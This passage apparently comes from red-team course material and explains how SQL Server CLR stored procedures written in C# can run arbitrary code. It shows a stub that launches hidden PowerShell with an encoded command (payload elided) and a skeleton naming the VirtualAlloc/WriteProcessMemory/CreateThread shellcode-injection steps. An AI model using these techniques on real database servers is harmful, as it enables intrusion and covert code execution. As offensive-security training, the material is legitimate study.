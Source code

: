 SQL Server 2005 introduced a feature called SQL Common Language Runtime (CLR), which integrated the .NET Framework.  This allows stored procedures to be written in any managed .NET language (such as C# and VB.NET) and registered with the database.  Thereafter, they can be invoked like any normal procedure.

For a method written in C# to be compatible with SQL CLR, it must be in a partial class called  _StoredProcedures_ and decorated with the [SqlProcedureAttribute](https://learn.microsoft.com/en-us/dotnet/api/microsoft.sqlserver.server.sqlprocedureattribute).  For example:

```csharp
public partial class StoredProcedures
{
    [SqlProcedure]
    public static void MyProcedure()
    {
        // my code here
    }
}
```

Since you can write practically any arbitrary C#, the sky's the limit in what you can do here.  For example, use the [System.Diagnostics](https://learn.microsoft.com/en-us/dotnet/api/system.diagnostics) namespace to run PowerShell like in the previous example:

```csharp
public partial class StoredProcedures
{
    [SqlProcedure]
    public static void MyProcedure()
    {
        var psi = new ProcessStartInfo
        {
            FileName = @"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe",
            Arguments = "-w hidden -nop -enc ..."
        };
        
        Process.Start(psi);
    }
}
```

Or write a complete shellcode injector via P/Invoke and one of the previously-shown [injection patterns](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops\&unit=67e93b6eebe539b1980ef449).

```csharp
public partial class StoredProcedures
{
    [SqlProcedure]
    public static void MyProcedure()
    {
        // VirtualAlloc
        // WriteProcessMemory
        // CreateThread
    }
}
```

